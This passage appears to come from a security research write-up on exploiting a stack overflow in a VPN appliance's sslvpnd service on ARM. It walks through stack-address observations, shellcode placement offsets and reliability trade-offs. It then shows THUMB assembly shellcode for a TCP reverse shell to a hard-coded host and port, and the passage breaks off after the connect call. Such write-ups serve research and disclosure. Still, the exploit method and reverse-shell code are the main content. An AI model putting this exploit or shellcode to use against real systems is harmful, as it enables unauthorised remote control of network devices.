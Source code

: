 As we control the content of the `PACKET_IN`, that seems to be a perfect candidate to place a shellcode. From our observation it seems stack addresses are very lightly randomized due to the use of threads being used.

When we take control of the execution, our `$sp` register will be pointing to one of the following stack addresses:

* `0x704aebe8` with about 65% chance
* `0x704f6be8` with about 35% chance

This is a very weird behaviour which we have never encountered! Usually randomisation on a 32 bit Linux kernel is very light, with about 12 bits of entropy. However, that's still 4096 possibilities, and here we only have two! If you know why this behaviour occurs, please let us know.

Another sort-of-mystery is that we're executing on the stack, and typically in ARM and MIPS CPU architectures we have to flush the instruction and data caches before we execute our shellcode (see [this advisory](https://github.com/pedrib/PoC/blob/master/advisories/netgear-wnr2000.txt#L318) for an explanation and example).

In our case, we got lucky and don't need to flush them! We speculate that this might be because `sslvpnd` has multiple threads running, and several of those are continuously calling `nanosleep()`, which flushes the caches for us.

# Exploitation
## Shellcode

Our shellcode is a TCP reverse shell to 5.5.5.1:4445 using an `execve()` syscall with no null bytes. We use THUMB mode shellcode to make it more compact.

When constructing shellcode, we have to keep in mind that it is processed by `strncat()`. Therefore, it can not contain any null bytes. That's why the command string is terminated with an "X" character, which is then replaced with a null byte in the instruction `strb r2, [r0, #7]`.  

Given the stack layout, our shellcode will be located about `0x12a` from the `$sp` values discussed in the previous section.
We noticed that by adding a few more filler bytes to the request we can get slightly higher reliability, but as discussed previously, there are two possible stack values when we take control. 

We decided to place our shellcode at offset `0x1b0` from the most common `$sp` value discussed in the previous section (`0x704aebe8`). This means our exploit will only have 65% reliability, but that is good enough given that the `sslvpnd` automagically restarts in less than 30 seconds if our exploit fails, so we can just try again until it works.

We sacrifice reliability to have to a simpler exploit without the need for ROP, which is difficult (but not impossible) given the null byte constraints.

```nasm
// Taken from Azeria's website and slightly modified
.global _start
_start:
.THUMB
// socket(2, 1, 0)
 mov   r0, #2
 mov   r1, #1
 sub   r2, r2
 mov   r7, #200
 add   r7, #81          // r7 = 281 (socket)
 svc   #1               // r0 = resultant sockfd
 mov   r4, r0           // save sockfd in r4

// connect(r0, &sockaddr, 16)
 adr   r1, struct       // pointer to address, port
 strb  r2, [r1, #1]     // write 0 for AF_INET
 mov   r2, #16
 add   r7, #2           // r7 = 283 (connect)
 svc   #1
```
